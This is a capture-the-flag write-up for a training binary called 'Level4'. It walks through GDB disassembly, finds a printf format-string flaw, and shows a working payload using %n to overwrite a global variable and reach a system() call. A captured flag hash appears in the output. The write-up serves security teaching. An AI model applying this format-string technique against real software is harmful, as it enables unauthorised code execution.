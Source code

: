 # Level4

First step - testing the program
```
$ ./level4
Hello
Hello
```
The program wait an input and print it

Start it in GDB
```
(gdb-peda)$ disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:		push   ebp
   0x080484a8 <+1>:		mov    ebp,esp
   0x080484aa <+3>:		and    esp,0xfffffff0
   0x080484ad <+6>:		call   0x8048457 <n>
   0x080484b2 <+11>:	leave
   0x080484b3 <+12>:	ret
End of assembler dump.
```
The main call a function `n`
```
(gdb-peda)$ disas n
Dump of assembler code for function n:
   0x08048457 <+0>:		push   ebp
   0x08048458 <+1>:		mov    ebp,esp
   0x0804845a <+3>:		sub    esp,0x218
   0x08048460 <+9>:		mov    eax,ds:0x8049804
   0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:	lea    eax,[ebp-0x208]
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    eax,[ebp-0x208]
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave
   0x080484a6 <+79>:	ret
End of assembler dump.
```

3 things here : a `fgets` call, a call to a `p` function, and a condition for a call to `system`
```
(gdb-peda)$ disas p
Dump of assembler code for function p:
   0x08048444 <+0>:		push   ebp
   0x08048445 <+1>:		mov    ebp,esp
   0x08048447 <+3>:		sub    esp,0x18
   0x0804844a <+6>:		mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:		mov    DWORD PTR [esp],eax
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave
   0x08048456 <+18>:	ret
End of assembler dump.
```

---


So, 2 things here : We have format string printf exploit and we need to **m** global variable be equal to 0x1025544 (16930116)


First step find the position of our buffer
```
$ python -c 'print "AAAABBBB"+" %x"*15' | ./level4
AAAABBBB b7ff26b0 bffff684 b7fd0ff4 0 0 bffff648 804848d bffff440 200 b7fd1ac0 b7ff37d0 41414141 42424242 20782520 25207825
```
It is 12th position.

**m** address is "0x8049810"

Let's start :

```
echo `python -c 'print("\x10\x98\x04\x08" + "%16930112c"  + "%12$n")'` > payload

cat payload  | ./level4


0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
